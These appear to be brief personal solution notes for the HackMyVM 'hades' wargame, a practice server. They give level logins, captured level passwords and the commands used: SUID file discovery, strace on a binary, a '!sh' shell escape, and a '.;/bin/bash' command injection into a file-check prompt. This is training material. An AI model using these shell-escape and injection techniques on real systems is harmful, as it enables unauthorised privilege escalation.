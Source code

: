 # hades

Host: hades.hackmyvm.eu
Port: 6666
User: hacker
Pass: begood!

## 01
acantha

find / -perm -u=s -type f 2>/dev/null
 ./gift_hacker 

 cat /pazz/acantha_pass.txt 
mYYLhLBSkrzZqFydxGkn


# 02
alala
DsYzpJQrCEndEWIMxWxu
^gTdGmkwhDrCqKrDQpxH^

strace ./guess
iz

# 03
althea
ObxEmwisYjERrDfvSbdA
^btDtPAPzSiXmoHItpqX^
./read
!'sh'
find / -user althea -type f 2>/dev/null
cat /pwned/alala/althea_pass.txt

# 04
andromeda
OTWGTbHzrxhYFSTlKcOt
^xzsHGrOeNctIZLGKzWq^
 ./lsme 
Enter file to check:
.;/bin/bash


# 05
anthea

